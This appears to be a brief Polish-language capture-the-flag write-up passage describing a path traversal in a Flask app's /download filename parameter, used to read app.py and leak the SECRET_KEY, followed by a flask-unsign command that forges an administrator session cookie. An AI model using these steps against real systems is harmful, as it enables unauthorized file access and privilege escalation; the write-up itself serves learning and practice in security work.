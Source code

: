 ![](../images/Pasted%20image%2020220717180631.png)

Po szybkim przetestowaniu ścieżki `/download` okazuje się, że w parametrze `?filename` jest path traversal. Pobierając kod serwera (`/download?filename=/app/app.py`), można przeczytać SECRET_KEY flaska. 

Używając `flask-unsign -s --cookie "{'is_admin': True}" --secret "p5VAmUfaP71Zpy1g"` generujemy sesje administratora.

![](../images/Pasted%20image%2020220717183029.png)